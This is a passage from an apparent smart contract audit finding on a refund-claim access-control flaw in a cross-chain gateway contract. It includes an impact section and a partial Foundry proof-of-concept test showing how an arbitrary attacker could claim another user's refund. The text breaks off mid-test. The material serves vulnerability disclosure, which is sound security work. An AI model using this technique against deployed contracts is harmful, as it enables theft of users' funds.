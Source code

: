 - Since `walletAddress.length != 20`, `receiver` remains as `msg.sender`
- Access check becomes: `bots[attacker] || attacker == attacker` → Always `true`
- Funds are transferred to the attacker

5. **The original user (who may be completely innocent) cannot recover their funds** as the refund has been deleted

## Impact

The original user suffers a 100% loss of their refunded amount. Anyone who discovers the vulnerable refund can steal the entire refund amount

Important: This vulnerability affects not just malicious scenarios, but also legitimate users who accidentally provide malformed receiver addresses, make innocent mistakes in transaction parameters, or encounter genuine transaction failures. In such cases, innocent users become victims of opportunistic attackers monitoring for vulnerable refunds.

## PoC

Paste this function in `GatewayCrossChain.t.sol` file and run it.

```solidity
function test_ClaimRefundVulnerability_PoC() public {
    // SCENARIO: User tries to bridge tokens from ZetaChain to Solana
    // Transaction fails, creating a refund with Solana address (44 bytes)
    // Since Solana addresses can't receive ERC20 tokens on EVM chains,
    // the refund system allows manual claiming - but the vulnerability
    // allows ANYONE to claim it instead of the rightful owner

    bytes32 externalId = keccak256(abi.encodePacked("vulnerability_test", block.timestamp));
    uint256 refundAmount = 50 ether;

    // Mint tokens to the contract (simulating failed transaction funds)
    token1Z.mint(address(gatewayCrossChain), refundAmount);

    // Create a refund using onAbort with Solana address (32 bytes, not 20)
    vm.prank(address(gatewayZEVM));
    gatewayCrossChain.onAbort(
        AbortContext({
            sender: abi.encode(address(this)),
            asset: address(token1Z),
            amount: refundAmount,
            outgoing: false,
            chainID: 7000,
            revertMessage: bytes.concat(externalId, solAddress) // Non-EVM address (not 20 bytes)
        })
    );

    // Verify refund was created
    (bytes32 storedExternalId, address storedToken, uint256 storedAmount, bytes memory storedWalletAddress) =
        gatewayCrossChain.refundInfos(externalId);

    assertEq(storedExternalId, externalId);
    assertEq(storedToken, address(token1Z));
    assertEq(storedAmount, refundAmount);
    assertNotEq(storedWalletAddress.length, 20); // Non-EVM address (not 20 bytes)
    console.log("Actual address length:", storedWalletAddress.length, "bytes (not 20 = vulnerable)");

    // VULNERABILITY DEMONSTRATION:
    // Create an attacker address (not the rightful owner, not a bot)
    address attacker = makeAddr("attacker");

    // Verify attacker is not authorized
```